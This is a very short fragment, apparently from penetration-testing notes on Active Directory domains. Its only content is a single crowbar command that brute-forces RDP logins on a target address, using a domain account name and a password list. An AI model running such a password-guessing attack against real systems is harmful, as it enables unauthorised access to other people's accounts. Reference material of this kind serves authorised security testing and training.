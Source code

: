 ### active directory domain joined
```
crowbar -b rdp -n 1 -s $IP/32 -u username@DOMAIN.local -C ./passwords
```
